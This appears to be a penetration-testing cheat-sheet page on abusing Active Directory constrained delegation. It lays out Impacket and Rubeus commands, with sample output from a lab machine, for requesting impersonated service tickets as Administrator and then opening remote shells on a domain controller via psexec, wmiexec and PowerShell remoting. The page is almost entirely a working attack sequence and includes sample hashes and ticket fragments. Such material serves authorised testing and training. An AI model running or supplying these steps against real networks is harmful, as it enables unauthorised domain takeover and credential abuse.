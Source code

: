 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "AllowedToDelegate", "Active Directory", "Windows", "AddAllowedtoAct", "AllowedToAct"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Pre-Check

```console
# Password
impacket-findDelegation '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console
# NTLM
impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC_IP> -hashes :<HASH> -no-pass
```

#### 2. Get a Service Ticket

```console
sudo ntpdate -s <DC_IP> && impacket-getST -dc-ip <DC_IP> -spn '<SERVICE>/<TARGET_DOMAIN>' -hashes :<HASH> -impersonate '<IMPERSONATE_USER>' '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :80d4ea8c2d5ccfd1ebac5bd732ece5e4 -impersonate Administrator 'intelligence.htb/svc_int'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

#### 3. Convert Ticket \[Optional\]

```console
python3 rubeustoccache.py '<BASE64_TICKET>' '<IMPERSONATE_USER>.kirbi' '<IMPERSONATE_USER>.ccache'
```

```console {class="sample-code"}
python3 ~/Tools/RubeusToCcache/rubeustoccache.py 'doIG9DCCBv ---[SNIP]--- 9yZS5jb20=' 'administrator.kirbi' 'administrator.ccache'
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to administrator.kirbi
[*] Writing converted .ccache file to administrator.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=administrator.ccache
```

#### 4. Remote

```console
export KRB5CCNAME='<CCACHE_FILE>'
```

```console {class="sample-code"}
$ export KRB5CCNAME=Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

```console
# psexec
sudo ntpdate -s <DC_IP> && impacket-psexec '<DOMAIN>/<IMPERSONATE_USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ impacket-psexec client.example.com/administrator@dc01.client.example.com -k -no-pass
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Requesting shares on dc01.client.example.com.....
[*] Found writable share ADMIN$
[*] Uploading file MOjmtmkC.exe
[*] Opening SVCManager on dc01.client.example.com.....
[*] Creating service NTdz on dc01.client.example.com.....
[*] Starting service NTdz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```console
# wmiexec
sudo ntpdate -s <DC_IP> && wmiexec.py '<DOMAIN>/<IMPERSONATE_USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && wmiexec.py -k -no-pass administrator@dc.intelligence.htb
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

<small>*Note: impacket-wmiexec may not work*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Add Delegate \[Optional\]

```console
# Import PowerView
. .\PowerView.ps1
```

```console
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount <USER>
```

#### 2. Check

```console
# Check msds-allowedtodelegateto
Get-NetUser -TrustedToAuth
```

{{< tab set1-2 tab1 active >}}Hash{{< /tab >}}{{< tab set1-2 tab2 >}}Kerberos{{< /tab >}}
{{< tabcontent set1-2 tab1 >}}

#### 3. Calculate Hash

```console
.\rubeus.exe hash /password:'<PASSWORD>' /user:'<USER>' /domain:<DOMAIN>
```

#### 4. Get a Service Ticket

```console
.\rubeus.exe s4u /user:'<USER>' /aes256:<HASH> /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt
```

```console {class="sample-code"}
.\rubeus.exe s4u /user:'MS01$' /rc4:7ddf32e17a6ac5ce04a8ecbf782ca509 /impersonateuser:administrator /msdsspn:"cifs/dc01.client.example.com" /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: S4U

[*] Using rc4_hmac hash: 7ddf32e17a6ac5ce04a8ecbf782ca509
[*] Building AS-REQ (w/ preauth) for: 'CLIENT.EXAMPLE.COM\MS01$'
[*] Using domain controller: 172.16.1.2:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFljCCBZKg ---[SNIP]--- hPUkUuQ09N

[*] Action: S4U

[*] Building S4U2self request for: 'MS01$@CLIENT.EXAMPLE.COM'
[*] Using domain controller: DC04.CLIENT.EXAMPLE.COM (172.16.1.2)
[*] Sending S4U2self request to 172.16.1.2:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'MS01$@CLIENT.EXAMPLE.COM'
[*] base64(ticket.kirbi):

      doIGGjCCBh ---[SNIP]--- cbBU1TMDIk

[*] Impersonating user 'administrator' to target SPN 'cifs/dc01.client.example.com'
[*] Building S4U2proxy request for service: 'cifs/dc01.client.example.com'
[*] Using domain controller: DC04.CLIENT.EXAMPLE.COM (172.16.1.2)
[*] Sending S4U2proxy request to domain controller 172.16.1.2:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc01.client.example.com':

      doIG9DCCBv ---[SNIP]--- 9yZS5jb20=
[+] Ticket successfully imported!
```

```console
# Or Create a sacrificial process
.\rubeus.exe s4u /user:'<USER>' /aes256:<HASH> /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt /createnetonly /program:C:\Windows\System32\cmd.exe
```

{{< /tabcontent >}}
{{< tabcontent set1-2 tab2 >}}

#### 3. Request a TGT

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

#### 4. Get a Service Ticket

```console
.\rubeus.exe s4u /user:'<USER>' /ticket:'<BASE64_TICKET>' /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt
```

```console
# Or Create a sacrificial process
.\rubeus.exe s4u /user:'<USER>' /ticket:'<BASE64_TICKET>' /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt /createnetonly /program:C:\Windows\System32\cmd.exe
```

{{< /tabcontent >}}

#### 5. Remote

```console
# Check
klist
```

```console
# Create session
$session = new-pssession -computername <COMPUTER_NAME>
```

```console
# Execute cmd
invoke-command $session { <CMD> }
```

{{< /tabcontent >}}
